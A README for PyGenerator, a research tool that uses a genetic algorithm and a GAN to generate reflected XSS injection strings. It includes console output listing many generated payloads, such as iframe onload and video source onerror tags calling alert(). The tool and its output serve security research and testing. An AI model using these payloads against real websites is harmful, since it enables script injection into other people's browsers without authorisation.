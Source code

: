 ## PyGenerator using Genetic Algorithm and Generative Adversarial Networks.

PyGenerator can generate injection codes for web app vulnerabilities.  
There are many different types of web app vulnerabilities, but PyGenerator has targeted reflected XSS in this version.  
ex) `<iframe/onload=alert();>size=<command`, `<video><source onerror=javascript:alert();>kind=`

[more info](http://www.mbsd.jp/blog/takaesu_index.html)

## Description

PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

1. Generation of injection codes using GA.
2. Augment injection codes using GAN.

#### 1. Generation of injection codes using GA.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv).  
Gen list is minimum components of HTML and JavaScript.  
ex) <img/, src=, xxx, onerror=, alert();, />, etc.  

And, you execute `ga_main.py` as the following.  

```
Generator>python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

・・・

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
・・・
```
In this result, a few injection codes are generated by GA.  
Injection codes are represented using combination of gene numbers (5 dimensional vector).  
ex) <149, 2, 180, 206, 164>,  

#### 2. Augment injection codes using GAN.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv) and train data generated by GA (ex. [train data](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/signature/xss_list.csv).  

And, you execute `gan_main.py` as the following.  

```
Generator>python gan_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

(14176L, 'train samples')
('Number of batches:', 443)
epoch: 0, batch: 0, g_loss: 0.704642, d_loss: 0.711084
[ 115.  118.  103.  112.  100.] : </label></meter></track></keygen></font>
[ 124.   99.  127.  106.  101.] : </progress><font/</select></button><track 
[ 112.   91.  107.  106.   90.] : </keygen></ins><fieldset </button><ins/
[ 115.  102.  142.   78.  125.] : </label><track/type="text/x-scriptlet" <meta/<select 
[ 121.  106.  107.  111.   95.] : </output></button><fieldset <keygen/<basefont 

・・・

epoch: 79, batch: 117, g_loss: 2.015308, d_loss: 0.561763
[   0.  182.    1.    5.   21.] : <script>onerror=\u0061lert();</script><isindex/<iframe/
[   0.  191.    1.    3.   14.] : <script>onload=alert();</script><video><source/<img/
[   0.  193.    1.    3.   12.] : <script>onmouseover=alert();</script><video><source/<option/
[   0.  181.    1.    3.   22.] : <script>onerror=javascript:alert();</script><video><source/</iframe>
[   0.  183.    2.    5.   28.] : <script>onerror=al\u0065rt();<video><source <isindex/<svg/
・・・
```
In this result, many injection codes are generated by GAN.  

## Requirement libraries
* pandas
* requests
* selenium

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3

## Inquiry
[takaesu235@gmail.com](<takaesu235@gmail.com>)

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Author

[Isao Takaesu](https://github.com/13o-bbr-bbq)
